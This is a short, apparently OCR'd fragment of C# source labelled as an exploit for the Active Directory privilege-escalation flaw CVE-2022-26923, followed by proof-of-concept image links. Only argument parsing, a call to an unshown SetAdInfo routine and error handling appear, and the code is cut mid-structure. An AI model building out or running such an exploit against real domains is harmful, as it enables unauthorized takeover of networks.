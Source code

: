 ```// Exploit for Active Directory Domain Privilege Escalation (CVE-2022–26923)
                return;
            }

            string LdapDomain = args[0].Trim();
            string domain = args[1].Trim();
            string dchost = args[3].Trim();

            string objectFilter = "(objectClass=*)";
            try
            {
                SetAdInfo(objectFilter, domain, dchost, LdapDomain);
            }
            catch (Exception e)
            {
                Console.WriteLine("[!] Error occured:");
                Console.WriteLine(e.Message);
            }

        }
    }
}
```


![PoC2.png](../../../_resources/PoC2.png)



![CVE-2022-26923 AD Certificate Services PoC.png](../../../_resources/CVE-2022-26923 AD Certificate Services PoC.png)

